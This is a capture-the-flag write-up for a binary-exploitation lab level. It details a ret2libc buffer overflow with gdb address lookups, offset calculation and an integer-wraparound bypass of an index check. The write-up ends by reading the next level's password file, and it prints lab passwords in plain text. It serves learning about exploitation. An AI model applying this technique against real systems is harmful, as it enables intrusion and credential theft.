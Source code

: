 # Level 07
*password : GbcPDRgsFK77LNnnuh7QyFYA2942Gp8yKj9KrWD8*

## Analyze

```
scp -P 4242 level07@192.168.56.109:level07 binary/
```

## Buffer overflow

**objective** : use the program to fill the buffer and execute `/bin/sh`

```
(gdb) find  0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
(gdb) info funct system
...
0xf7e6aed0  system
...
(gdb) info funct exit
...
0xf7e5eb70  exit
...
```
- convert addresses to unsigned int
   - `system` : 0xf7e6aed0 = 4159090384\
   - `exit` : 0xf7e5eb70 = 4159040368\
   - `/bin/sh` : 0xf7f897ec = 4160264172
---
### Comupute offset

```
(gdb) b *0x0804892b
Breakpoint 1 at 0x804892b
(gdb) run
...
Input command: read

Breakpoint 1, 0x0804892b in main ()
(gdb) info frame
Stack level 0, frame at 0xffffd710:
 eip = 0x804892b in main; saved eip 0xf7e45513
 Arglist at 0xffffd708, args: 
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebx at 0xffffd6fc, ebp at 0xffffd708, esi at 0xffffd700, edi at 0xffffd704, eip at 0xffffd70c
(gdb) x/x $eax
0xffffd544:     0x00000000
```
- `eip` address : 0xffffd70c
- `buffer` address : 0xffffd544

`0xffffd70c - 0xffffd544 = 1c8` (456 in decimal)

---

- eip offset found : 456

```
buffer[index * 4] = number;
```
- `system` at index 114 (456 / 4)
- `exit` at index 115
- `/bin/sh` at index 116\

index must not be a multiple of 3, but 114 % 3 = 0.\
max unsigned int : 4294967296\
4294967296 / 4 + 114 = 1073741938\
=> (unsigned int)1073741938 = 114\
1073741938 % 3 = 1\
so `system` at index 1073741938

```
$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------
Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115       
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
